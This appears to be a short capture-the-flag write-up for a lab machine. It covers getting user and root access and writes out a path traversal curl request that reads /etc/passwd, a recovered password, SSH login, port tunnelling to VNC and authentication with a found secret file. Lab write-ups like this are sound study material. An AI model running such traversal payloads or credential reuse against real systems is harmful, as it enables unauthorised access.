

# USER

Website hosted on the :80 port allows for shell script testing

listfiles.php gives a directory listing.
A file called pwdbackup.txt is shown

It's base64 encoded 13 times. Decoding gives us:

```
Charix!2#4%6&8(0
```

By traversing to the passwd file we can get the username

```
curl 'http://10.10.10.84/browse.php?file=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd'
```

Therefore we can log into ssh using:

```
charix
ssh charix@10.10.10.84
```

This allows us to get the user.txt

# ROOT

In the directory is a secret.zip

The .zip file is password protected. Will run it through a rockyou script
No need for the brute force. The password is re-used from the user account

You can see listening services

```
netstat -an 
```

You can create tunneled ssh using -L local_port:address:remote_port

```
ssh -L 5801:127.0.0.1:5801 -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

# This allows us to connect to the port on our base machine. Running:

```
curl 127.0.0.1:5901
```

# Then by using the secret we found ealier we can authenticate with the VNC server and gain a shell

```
vncviewer 127.0.0.1::5901 -passwd secret
```
